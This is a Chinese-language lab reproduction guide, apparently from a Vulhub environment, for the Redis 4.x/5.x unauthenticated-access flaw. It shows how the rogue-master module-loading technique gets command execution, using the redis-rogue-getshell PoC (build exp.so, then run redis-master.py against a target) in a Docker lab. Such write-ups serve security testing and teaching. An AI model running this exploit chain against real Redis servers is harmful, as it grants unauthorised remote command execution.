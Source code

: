 # Redis 4.x/5.x 未授权访问漏洞

## 漏洞描述

Redis未授权访问在4.x/5.0.5以前版本下，我们可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。

参考链接：

- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

## 环境搭建

Vulhub执行如下命令启动redis 4.0.14：

```
docker-compose up -d
```

环境启动后，通过`redis-cli -h your-ip`即可进行连接，可见存在未授权访问漏洞。

## 漏洞复现

redis未授权访问：

![image-20220228201652953](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282016157.png)

使用如下POC即可直接执行命令https://github.com/vulhub/redis-rogue-getshell：

```
$ cd RedisModulesSDK/
$ make
$ python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

![image-20220228202202438](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282022614.png)